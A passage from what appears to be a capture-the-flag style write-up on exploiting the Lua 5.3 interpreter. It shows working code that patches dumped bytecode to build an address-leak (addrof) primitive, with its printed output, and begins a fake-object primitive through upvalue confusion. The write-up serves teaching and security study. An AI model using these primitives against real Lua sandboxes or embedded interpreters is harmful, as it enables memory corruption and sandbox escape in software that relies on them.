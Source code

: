 Looks like we are getting somewhere.

However, the clever will notice that the address of the function and the
printed leaks do not seem to match. This is well explained in the original writeup:
Lua thinks that the returned address is a double, thus it will use the IEEE 754 representation.
Indeed, in the blogpost, the author embarks on an adventurous quest to natively transform
this double in the integer binary representation needed to complete the addrof
primitive.

**We don't need this.** In fact, since Lua 5.3, the interpreter supports
integer types!

This makes completing the addrof primitive a breeze,
by resorting to the native `string.pack` and `string.unpack` functions:

```
# Code
asnum = load(string.dump(function(x)
    for i = 0, x, x do return i end
end):gsub("\xca\x80\x00\x00", "\x38\x00\x00\x80"))

function addr_of(variable)
  return string.unpack("L", string.pack("d", asnum(variable)))
end

foo = function() print(1) end
print("foo:", foo)

print(string.format("leak: 0x%2x",addr_of(foo)))
# Output
foo:	LClosure: 0x10a0e8
leak: 0x10a0e8
```

Good, our leak now finally matches the function address!

> Note: another way to solve the limit problem is to use the maximum
> double value, which roughly amounts to 2^1024.

## Trust is the weakest link

The next piece of the puzzle is to find a way to craft fake objects.

For this, we can pretty much use the same technique used in the blogpost:

```lua
# Code 

confuse = load(string.dump(function()
    local foo
    local bar
    local target
    return (function() <--- THIS IS THE TARGET CLOSURE WE ARE RETURNING
      (function()
        print(foo)
        print(bar)
        print("Leaking outer closure: ",target) <--- TARGET UPVALUE SHOULD POINT TO THE TARGET CLOSURE
      end)()
    end)
end):gsub("(\x01\x00\x00\x01\x01\x00\x01)\x02", "%1\x03", 1))

outer_closure = confuse()
print("Returned outer closure:", outer_closure)

print("Calling it...")
outer_closure()

```